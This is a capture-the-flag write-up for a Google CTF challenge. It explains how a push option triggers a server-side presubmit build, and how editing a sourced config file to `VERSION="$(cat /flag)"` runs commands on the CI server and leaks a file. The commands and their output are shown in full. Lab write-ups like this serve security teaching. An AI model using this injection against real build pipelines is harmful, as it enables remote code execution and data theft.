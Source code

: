 # Episode 4: Challenge 3

## Description

> The VRP platform is proudly open-source, and encourages submissions. Let's try to change something and see if we can find some bugs.
> 
> Hint: Look around the site to find out how to contribute. 


## Solution

In [Challenge 2](e04c02.md) we got the source code for the website, allowing us to inspect the `/contributing` page:

```html
<p>Thank you for taking the time to consider improving the Google VRP website!</p>
<p>We welcome all contributions, including bug fixes, improvements, documentation updates and style
  suggestions. Read on to see how to get started.</p>
<h2>Getting Started</h2>
<p>First, clone the Git repo for this project:</p>
<pre style=" white-space: pre-line;">
    <code>
    $ git clone git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
    $ git checkout -b my-feature
    </code>
</pre>
<p>After you make your changes, push them up to create a Pull Request:</p>
<pre style=" white-space: pre-line;">
    <code>
    $ git push
    </code>
</pre>
<p>You will get back a link to your proposal where a member of the team will review your changes for
  conformance and make any comments.</p>
```

So, let's go ahead and clone:

```console
┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_03]
└─$ git clone git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
Cloning into 'vrp_repo'...
remote: Enumerating objects: 7, done.
remote: Counting objects: 100% (7/7), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 7 (delta 0), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (7/7), done.

┌──(user@kali)-[/media/sf_CTFs/h4ck1ng.google/EP004/Challenge_03]
└─$ ls -al vrp_repo
total 14
drwxrwx--- 1 root vboxsf    0 Oct  9  2022 .
drwxrwx--- 1 root vboxsf    0 Oct  9  2022 ..
-rwxrwx--- 1 root vboxsf 5440 Oct  9  2022 app.go
-rwxrwx--- 1 root vboxsf  128 Oct  9  2022 build.sh
-rwxrwx--- 1 root vboxsf  321 Oct  9  2022 configure_flags.sh
drwxrwx--- 1 root vboxsf 4096 Oct  9  2022 .git
-rwxrwx--- 1 root vboxsf    6 Oct  9  2022 .gitignore
-rwxrwx--- 1 root vboxsf   40 Oct  9  2022 go.mod
```

We have:

`build.sh`:

```bash
#!/usr/bin/env bash

source configure_flags.sh &>/dev/null
echo "Building version ${VERSION}"
go build -ldflags="${LDFLAGS[*]}"
```

`configure_flags.sh`:
```bash
#!/usr/bin/env bash

# IMPORTANT: Make sure to bump this before pushing a new binary.
VERSION="v0.1.1"
COMMIT_HASH="$(git rev-parse --short HEAD)"
BUILD_TIMESTAMP=$(date '+%Y-%m-%dT%H:%M:%S')

LDFLAGS=(
  "-X 'main.Version=${VERSION}'"
  "-X 'main.CommitHash=${COMMIT_HASH}'"
  "-X 'main.BuildTime=${BUILD_TIMESTAMP}'"
)

```

And a few more `go` files.

We were told to make a change and submit, let's try to do that:

```console
┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git checkout -b solve
Switched to a new branch 'solve'

┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ touch new_file.txt

┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git add new_file.txt

┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git commit -m "Adding new file"
[solve 2288dd0] Adding new file
 1 file changed, 0 insertions(+), 0 deletions(-)
 create mode 100644 new_file.txt

┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git push --set-upstream origin solve
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 273 bytes | 54.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: Skipping presubmit (enable via push option)
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] solve -> solve (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

We get rejected by a pre-receive hook! It runs on the server so we can't really modify it. 
But what's that about "Skipping presubmit (enable via push option)"? Let's try to enable presubmit via push options:

```console
┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git push --set-upstream origin solve --push-option="presubmit"
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (2/2), done.
Writing objects: 100% (3/3), 273 bytes | 45.00 KiB/s, done.
Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at 2288dd0 Adding new file
remote: Building version v0.1.1
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] solve -> solve (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

Notice how it looks like we ran `build.sh`. What if we try to modify it:

```
┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ echo "ls -al" > build.sh

┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git commit -am "Changing build.sh"
[solve 72d155e] Changing build.sh
 1 file changed, 1 insertion(+), 5 deletions(-)

┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git push --set-upstream origin solve --push-option="presubmit"
Enumerating objects: 8, done.
Counting objects: 100% (8/8), done.
Delta compression using up to 4 threads
Compressing objects: 100% (4/4), done.
Writing objects: 100% (6/6), 547 bytes | 68.00 KiB/s, done.
Total 6 (delta 2), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at 72d155e Changing build.sh
remote: Building version v0.1.1
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] solve -> solve (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

Well, it's still complaining about the `go` command on line 5 even though the `HEAD` is pointing to the right commit, we probably can't modify `build.sh` like this.
But take a look at how the version is computed in `configure_flags.sh`:

```bash
VERSION="v0.1.1"
```

We can change that to a bash command:

```bash
VERSION="$(cat /flag)"
```

Let's try again:

```bash
┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git commit -am "Changing version"
[solve 5ce2798] Changing version
 1 file changed, 1 insertion(+), 1 deletion(-)

┌──(user@kali)-[/media/…/h4ck1ng.google/EP004/Challenge_03/vrp_repo]
└─$ git push --set-upstream origin solve --push-option="presubmit"
Enumerating objects: 15, done.
Counting objects: 100% (15/15), done.
Delta compression using up to 4 threads
Compressing objects: 100% (10/10), done.
Writing objects: 100% (12/12), 1.09 KiB | 101.00 KiB/s, done.
Total 12 (delta 5), reused 0 (delta 0), pack-reused 0
remote: Starting presubmit check
remote: Cloning into 'tmprepo'...
remote: done.
remote: HEAD is now at 5ce2798 Changing version
remote: Building version https://h4ck1ng.google/solve/CIOnPushIsJustRCEAsAService
remote: ./build.sh: line 5: go: command not found
remote: Build server must be misconfigured again...
remote: Thank you for your interest, but we are no longer accepting proposals
To git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo
 ! [remote rejected] solve -> solve (pre-receive hook declined)
error: failed to push some refs to 'git://dont-trust-your-sources.h4ck.ctfcompetition.com:1337/tmp/vrp_repo'
```

And we got the flag.